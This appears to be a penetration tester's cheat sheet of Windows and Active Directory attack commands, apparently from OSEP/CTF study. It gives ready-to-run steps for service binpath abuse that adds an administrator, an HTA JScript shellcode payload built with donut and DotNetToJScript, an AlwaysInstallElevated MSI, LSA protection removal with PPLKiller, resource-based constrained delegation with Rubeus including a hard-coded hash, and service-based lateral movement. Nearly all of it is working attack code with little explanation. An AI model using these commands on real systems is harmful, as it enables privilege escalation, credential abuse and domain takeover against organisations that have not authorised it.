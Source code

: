 Service Modify
---------------------
```powershell
sc config SNMPTRAP binpath= "cmd.exe /c net localgroup administrators john /add" start= "demand" obj= "NT AUTHORITY\SYSTEM" password= ""
```
HTA JS PAYLOAD
---------------------
DotNetToJScript
```powershell
C:\Users\ctf\Downloads\donut_v1.1\donut.exe -a 2 -f 1 -o ipv4.bin -i ipv4shell.exe
```
Change in TestClass.cs file url

Build ExampleAssemly.dll


Generate the js file
```
C:\Users\ctf\Downloads\release_v1.0.4\DotNetToJscript.exe ExampleAssembly.dll --lang=JScript --ver=4 -o payload.js
```

```hta
<html>
<head>
<script language="JScript">
// ADD JS HERE
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
Install AlwaysElevated
-----------------------
```powershell
Create MSI Package to run
dotnet build -p:Platform=x64 -c Release
cmd.exe /c "msiexec /quiet /qn /i InstallMe.msi"
```

Run the combined ligolo agent with ApplockerBypass
-----------------------

If LSA Protection 
--------------------
```powershell
PPLKiller.exe /installDriver
```
RBCD
--------------------
```powershell
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))" 
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer file05 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
.\Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/file05 /ptt
```

Lateral Movement
---------------------
 -> https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/Fileless%20Lateral%20Movement

```powershell
lat.exe <server> <service name> <payload.exe>
Lat.exe file05 SensorService “C:\windows\tasks\inj.exe”
``` 

uacbypass.ps1
SigmaPotato.exe

